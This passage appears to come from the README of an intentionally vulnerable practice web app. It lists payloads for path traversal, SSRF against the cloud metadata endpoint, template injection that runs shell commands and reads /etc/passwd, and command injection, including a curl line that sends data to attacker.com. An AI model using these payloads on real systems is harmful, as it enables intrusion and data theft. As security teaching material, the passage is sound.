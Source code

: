 ### 5. **Directory Traversal/LFI**
```bash
http://localhost:5001/view_file?file=../../../etc/passwd
http://localhost:5001/view_file?file=../app.py
http://localhost:5001/download/../../../etc/hosts
```

### 6. **SSRF (Server-Side Request Forgery)**
```bash
# Internal network scanning
http://127.0.0.1:22
http://localhost:3306
file:///etc/passwd
http://169.254.169.254/latest/meta-data/
```

### 7. **SSTI (Server-Side Template Injection)**
```python
# Basic detection
{{ 7*7 }}

# Command execution
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }}

# File reading
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

### 8. **Command Injection**
```bash
# In ping functionality
127.0.0.1; whoami
127.0.0.1 && cat /etc/passwd
127.0.0.1; curl http://attacker.com/$(whoami)
```

### 9. **Business Logic Flaw**
```bash
# Coupon abuse - use same coupon multiple times
Coupon: SAVE10 (10% discount)
Coupon: WELCOME20 (20% discount)  
Coupon: MEGA50 (50% discount)
```

### 10. **Broken Authentication**
```bash
# Admin panel without authentication
http://localhost:5001/admin
```

## 🔧 Automated Testing
